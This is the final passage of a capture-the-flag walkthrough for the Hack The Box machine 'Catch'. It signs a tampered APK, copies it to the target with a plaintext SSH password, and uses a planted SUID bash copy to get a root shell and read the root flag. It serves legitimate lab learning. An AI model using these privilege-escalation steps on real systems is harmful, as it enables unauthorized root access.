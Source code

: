 Now jarsigner is available:

```sh
┌──(root㉿kali)-[~/htb/catch]
└─# jarsigner
Usage: jarsigner [options] jar-file alias
       jarsigner -verify [options] jar-file [alias...]

[-keystore <url>]           keystore location
<SNIP>
```

Back to signing our newly built apk:

```sh
┌──(root㉿kali)-[~/htb/catch]
└─# jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.keystore catch_pencer.apk alias_name
Enter Passphrase for keystore: 
   adding: META-INF/MANIFEST.MF
   adding: META-INF/ALIAS_NA.SF
   adding: META-INF/ALIAS_NA.RSA
  signing: classes.dex
  signing: AndroidManifest.xml
  signing: resources.arsc
  signing: res/animator/mtrl_extended_fab_show_motion_spec.xml
<SNIP>
```

We can use scp to copy our file over to the /opt/mdm/apk_bin folder:

```sh
┌──(root㉿kali)-[~/htb/catch]
└─# sshpass -p 's2#4Fg0_%3!' scp catch_pencer.apk will@catch.htb:/opt/mdm/apk_bin
```

Switch back to our ssh session as the user Will on the box. Wait for a few minutes then check /tmp:

```sh
will@catch:~$ ll /tmp/pencer
-rwsr-sr-x 1 root root 1183448 Apr 23 14:28 /tmp/pencer*
```

## Root Flag

Our copy of bash is there called pencer with permissions modified. Now let's get the root flag:

```sh
will@catch:~$ /tmp/pencer -p
pencer-5.0# whoami
root
pencer-5.0# cat /root/root.txt
340847d2ddd0d39864d988d72c4658ee
```

That was a pretty tricky box for me. I hope this walkthough helped you get through it. See you next time.


  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  1
  [Unknown]:  us
  [no]:  yes